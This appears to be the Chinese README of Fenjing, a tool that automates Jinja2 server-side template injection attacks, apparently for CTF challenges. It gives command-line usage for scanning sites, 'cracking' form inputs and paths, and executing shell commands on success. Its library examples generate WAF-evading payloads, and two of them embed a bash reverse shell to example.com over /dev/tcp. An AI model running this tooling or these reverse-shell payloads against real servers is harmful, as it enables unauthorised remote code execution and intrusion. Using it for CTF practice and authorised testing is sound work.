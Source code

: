 ## 注意

不要使用windows的cmd跑脚本，要不然就会像[这位](https://github.com/Marven11/Fenjing/issues/3)一样出问题

## 启动webui

webui不支持自定义Headers和Cookie等特性，如果需要更灵活的使用方式请直接使用命令行或者作为库调用
执行`python -m fenjing webui`并访问[http://127.0.0.1:11451](http://127.0.0.1:11451)即可
指定host和port：`python -m fenjing webui --host '127.0.0.1' --port 1145`

## 作为命令行脚本使用

扫描网站：`python -m fenjing scan --url 'http://xxx.xxx/'`

获取config：`python -m fenjing get-config --url 'http://xxx.xxx' --method GET --inputs name`

攻击对应的表单：
- `python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name`
- 也可以指定多个input：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name,email`
- 指定攻击成功后执行的命令
    - 不指定则进入交互模式
    - `python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name` --exec-cmd 'ls /'

攻击对应的路径：
- `python -m fenjing crack-path --url 'http://xxx.xxx/hello/'`
- 只需要提供路径的前缀即可

通用设置
- 指定分析模式`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --detect-mode fast`
- 指定请求间隔：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --interval 0.1`
- 指定请求时使用的UA：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --user-agent 'Aaa/1.1'`
- 指定Header：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --header 'Aaa: Bbb' --header 'Ccc: Ddd'`
- 指定Cookie：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --cookie 'name1=value1; name2=value2'`
- 指定代理：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --proxy 'http://127.0.0.1:7890'`

### Tamper Cmd的使用

如果指定了`--tamper-cmd`参数，焚靖在每次提交payload时会使用指定的命令打开一个子进程，向这个子进程的标准输入传入payload, 并将子进程的输出作为编码后的结果进行提交。

例如：Linux中有一个命令行程序`base64`，它会从输入中读取内容，进行base64编码并输出

我们就可以使用`--tamper-cmd 'base64'`指定使用这个命令编码payload

同样道理，`--tamper-cmd 'base64|rev'`就是先进行base64编码再将内容反转

也可以使用python来自定义编码方式，例子如下：

先新建一个`encoder.py`，写入以下内容：

```python
s = input()
print(s[::-1], end = "") # 将payload反转
```

然后指定`--tamper-cmd 'python encoder.py'`就可以了


## 作为库使用

### 根据WAF函数生成shell指令对应的payload

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str): # 如果字符串s可以通过waf则返回True, 否则返回False
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    # config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    # print(f"{config_payload=}")
```

### 让生成器学会使用新的变量

[参考](https://github.com/Marven11/Fenjing/issues/4)

比如说你想让生成器学会使用新的变量`aaa`，它的值是100，需要在payload的前面加上`{%set aaa=0x64%}`，那你只需要这么写

```python
from fenjing.full_payload_gen import FullPayloadGen
from fenjing.const import OS_POPEN_READ
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str): # 这个函数因题目而定
    blacklist = [
        "00", "1", "3", "5", "7", "9"
    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    full_payload_gen = FullPayloadGen(waf)
    full_payload_gen.do_prepare()
    full_payload_gen.add_context_variable("{%set aaa=0x64%}", {"aaa": 100})
    shell_payload, will_print = full_payload_gen.generate(OS_POPEN_READ, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    if not will_print:
        print("这个payload不会产生回显")
    print(f"{shell_payload=}")
```
